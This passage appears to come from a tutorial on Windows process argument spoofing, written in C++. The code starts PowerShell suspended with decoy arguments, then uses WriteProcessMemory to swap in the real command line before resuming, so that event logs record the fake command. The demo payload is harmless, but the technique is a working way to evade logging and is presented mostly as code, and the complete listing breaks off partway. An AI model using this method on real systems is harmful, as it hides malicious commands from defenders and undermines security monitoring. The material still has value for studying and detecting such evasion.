 Then write the real arguments into the buffer:

```
//write new args to execute
wchar_t realArgs[] = L"powershell -c \"Write-Host Hello World!\"0";
WriteProcessMemory(
pi->hProcess,
parameters->CommandLine.Buffer,
&realArgs,
sizeof(realArgs),
NULL);
```

The final step is then to just resume the process and close the handles

```
//resume process
ResumeThread(pi->hThread);

//close handles
Closehandle(pi->hThread);
CloseHandle(pi->hProcess);
```

if we run the application from a command prompt we'll see "Hello World" printed to the console, but the event log will show the fake arguments

Complete Code:

```
#include <Windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")

int main() {

    auto si = new STARTUPINFOW();
    si->cb = sizeof(STARTUPINFOW);

    auto pi = new PROCESS_INFORMATION();
    LPCWSTR application = L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\0";

    // the "fake" arguments that we want logged
    wchar_t fakeArgs[] = L"powershell.exe -c \"(Get-PSDrive $Env:SystemDrive.Trim(':')).Free/1GB\"\0";

    // create process in suspended state
    CreateProcess(
        application,
        fakeArgs,
        nullptr,
        nullptr,
        FALSE,
        CREATE_SUSPENDED,
        nullptr,
        nullptr,
        si,
        pi);

    // get process basic information
    auto pbi = new PROCESS_BASIC_INFORMATION();
    NtQueryInformationProcess(
        pi->hProcess,
        ProcessBasicInformation,
        pbi,
        sizeof(PROCESS_BASIC_INFORMATION),
```